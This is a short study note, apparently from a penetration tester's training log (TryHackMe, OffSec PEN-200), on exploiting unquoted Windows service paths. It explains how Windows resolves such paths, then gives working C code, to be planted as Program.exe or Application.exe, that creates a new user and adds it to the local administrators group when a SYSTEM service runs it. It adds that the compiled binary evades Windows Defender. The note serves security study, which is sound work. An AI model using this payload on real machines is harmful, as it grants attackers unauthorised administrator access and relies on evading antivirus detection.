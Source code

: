 # Exploiting Unquoted Paths

* **author**:: Nathan Acks  
* **date**:: 2022-08-17

When Windows encounters an unquoted path it tries *all* possible paths, from shortest to longest. Thus `C:\Program Files\Application Path\App.exe` will cause Windows to look for the following executables, in order:

* `C:\Program.exe`
* `C:\Program Files\Application.exe`
* `C:\Program Files\Application Path\App.exe`

If an executable is found on a shorter path, then the remainder of the (unquoted) path is treated as command line parameters.

* [2022-04-21 — TryHackMe: Jr. Penetration Tester](../log/2022-04-21-tryhackme-jr-penetration-tester.md)

## Exploiting Services Running as SYSTEM

If a service is running as SYSTEM, the following code can be inserted (as `Program.exe` or `Application.exe` in the example above) and will add a new user with admin privileges. (`USERNAME` and `PASSWORD` obviously need to be updated to fit the current use case.)

```c
#include <stdlib.h

int main() {
	int i;

	i = system("net user USERNAME PASSWORD /add");
	i = system("net localgroup administrators USERNAME /add");

	return 0;
}
```

As of August 17, 2022, binaries compiled from this code are *not* detected as malicious by Windows Defender.

* [2022-08-17 — OffSec Live: PEN-200](../log/2022-08-17-offsec-live-pen-200.md)
